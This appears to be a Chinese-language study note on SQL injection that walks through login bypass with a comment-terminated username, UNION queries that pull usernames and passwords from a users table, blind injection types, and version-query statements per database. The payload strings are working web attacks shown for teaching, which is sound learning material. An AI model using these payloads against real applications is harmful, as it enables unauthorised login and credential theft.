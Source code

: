 如果一个应用允许用户使用用户名和密码进行登录，提交的用户名和密码应该要在数据库中查询

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

如果查询返回用户的详细信息，则登录成功

如果没有sql注入的防护，那么只要在用户名中输入 `marin'--`，密码无论输入什么都可以登录marin用户，并进行攻击

```sql
SELECT * FROM users WHERE username = 'marin'--' AND password = ''
```

#### 从其他数据库检索数据

可以使用关键字`UNION`附加`SELENT`查询并将结果加到原来的查询中

```sql
SELECT name FROM products WHERE category = 'Gifts'
```

如果我提交的是

```sqlite
SELECT name FROM products WHERE category = 'Gifts' UNION SELECT     username , password FROM users--
```

`UNION`用来合并两个查询的结果，这个将会返回类别为空的产品和users表中的名字和密码

```sqlite
'UNION SELECT password || '-' || username FROM users
```

如果返回的列数不够，可以使用这个语句将列合成一列输出

要执行UNION攻击有两个要求

* 原始查询返回了多少列
* 从原始查询返回的哪些列具有合适的数据类型来保存注入查询的结果

#### 盲SQL注入

如果应用防御了sql注入，攻击者无法直接获取到注入后获得的信息，所以被称为盲注

盲注有两种形式

* 布尔盲注：攻击者通过注入语句，利用应用中基于布尔条件的判断来获取有关数据库内容的信息
* 时间盲注：攻击者在注入语句中使用延时函数或计算处理时间，用来观察应用对恶意查询的处理时间，观察时间的变化来推断数据

### SQL注入语句

https://portswigger.net/web-security/sql-injection/cheat-sheet

#### 查询数据库版本

在sql中，可以用以下语句查询数据库的版本

|数据库类型|语句|
| ----------| ----|
|**Microsoft SQL Server**|`SELECT @@version`|
|**Oracle**|`SELECT * FROM v$version`<br />`SELECT version FROM v$instance`|
|**PostgreSQL**|`SELECT version()`|
|**MySQL**|`SELECT @@version`|
